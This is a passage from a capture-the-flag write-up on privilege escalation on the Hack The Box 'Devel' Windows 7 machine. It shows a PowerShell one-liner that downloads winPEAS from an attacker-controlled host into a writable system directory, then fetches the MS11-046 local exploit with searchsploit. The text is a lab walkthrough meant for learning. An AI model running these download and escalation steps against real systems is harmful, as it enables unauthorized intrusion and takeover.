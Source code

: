 #### `systeminfo`

![systeminfo](https://pymaster-ft.github.io/assets/img/htb/machines/windows/easy/devel/systeminfo.png)

The target machine is **Microsoft Windows 7 Entreprise** server (version &rarr; 6.1.7600) with an **x86** architecture (32 bits). 

#### Download and execute `winPEAS.exe`

Let's go to a word writable directory (`C:\Windows\System32\spool\drivers\color`) and try to run [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)

```console
C:\> cd \windows\system32\spool\drivers\color
C:\Windows\System32\spool\drivers\color>echo amirr0r > test
echo amirr0r > test
C:\Windows\System32\spool\drivers\color>type test
type test
amirr0r
```

Native wget in powershell:

```powershell
c:> powershell -command "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.14:8000/winPEAS.exe', 'c:\Windows\System32\spool\drivers\color\winPEAS.exe')"
```

![alternative to wget](https://pymaster-ft.github.io/assets/img/htb/machines/windows/easy/devel/wget.png)

#### Looking for exploits

Unfortunately, I didn't get any output after executing `winPEAS.exe` so I directly looked for exploits on **Microsoft Windows 7**:

![google search exploits windows 7](https://pymaster-ft.github.io/assets/img/htb/machines/windows/easy/devel/google-search-windows-7.png)

![MS11-046](https://pymaster-ft.github.io/assets/img/htb/machines/windows/easy/devel/exploitDB.png)

#### Compiling exploits

1. Getting exploit based on the **EDB-ID** (**E**xploit **D**ataBase **ID**entifier):

```console
$ searchsploit -m 40564
  Exploit: Microsoft Windows (x86) - 'afd.sys' Local Privilege Escalation (MS11-046)
      URL: https://www.exploit-db.com/exploits/40564
     Path: /usr/share/exploitdb/exploits/windows_x86/local/40564.c
File Type: C source, ASCII text, with CRLF line terminators

Copied to: /root/htb/machines/Windows/Devel/40564.c
```

2. Install `apt install mingw-w64`
